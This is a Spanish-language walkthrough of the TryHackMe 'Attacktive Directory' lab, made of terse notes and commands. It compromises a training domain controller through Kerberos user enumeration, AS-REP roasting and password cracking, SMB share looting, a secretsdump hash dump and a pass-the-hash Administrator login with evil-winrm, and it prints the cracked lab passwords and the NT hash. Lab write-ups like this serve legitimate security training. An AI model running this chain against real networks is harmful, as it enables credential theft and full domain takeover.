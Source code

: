 https://tryhackme.com/r/room/attacktivedirectory
# Fase de reconocimiento
Windows
## Buscamos puertos abiertos
```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.209.100
```
![[Pasted image 20240605175535.png]]
## Reconocimiento de servicios
```
nmap -sCV -p53,80,88,135,139,445,464,3269,3389,49664,49665,49667,49669,49671 10.10.209.100
```
![[Pasted image 20240605174129.png]]
## Enumeration SMB
```
nmap --script "rdp-enum-encryption or rdp-ntlm-info" -p3389 -T4 10.10.209.100
```
![[Pasted image 20240605174712.png]]
```
enum4linux -a spookysec.local
```
![[Pasted image 20240605180741.png]]
![[Pasted image 20240605180811.png]]
## kerberos enumeracion ususarios
Nos descargamos la tool y descargamos un userlist dado
```
kerbrute userenum -d spookysec.local --dc spookysec.local userlist.txt -t 100
```
![[Pasted image 20240605223652.png]]
# Fase de ataque
Conseguimos un TGT (Ticket) de un usuario para intentar crackearlo
```
impacket-GetNPUsers -request -format john -no-pass spookysec.local/svc-admin
```
![[Pasted image 20240605223959.png]]
Crakeamos con John
```
john --wordlist=passwordlist.txt hash.txt
```
![[Pasted image 20240605224238.png]]
Vemos si funciona
```
crackmapexec smb spookysec.local -u 'svc-admin' -p 'management2005'
```
![[Pasted image 20240605224648.png]]
## SMB
Listamos shares compartidas
```
crackmapexec smb spookysec.local -u 'svc-admin' -p 'management2005' --shares
```
![[Pasted image 20240605225056.png]]
Vemos la share de backup
```
smbclient \\\\spookysec.local\\backup -U svc-admin --password="management2005"
```
Contiene las credenciales de backup
```
	get <archivo>
```
![[Pasted image 20240605225536.png]]
Comprobamos la contraseña
```
base64 -d backup_credentials.txt
```
```
crackmapexec smb spookysec.local -u 'backup' -p 'backup2517860'
```
![[Pasted image 20240605230804.png]]
## PassTheHash
El usuario backup tiene permiso para sacar los hashes
```
impacket-secretsdump -just-dc backup@spookysec.local
```
![[Pasted image 20240605230904.png]]
Copiamos el NTHash
```
0e0363213e37b94221497260b0bcb4fc
```
Comprobamos
![[Pasted image 20240607193036.png]]
Nos conectamos con el hash
```
evil-winrm -ip spookysec.local -u 'Administrator' -H 0e0363213e37b94221497260b0bcb4fc
```
[+] ==pwned!==

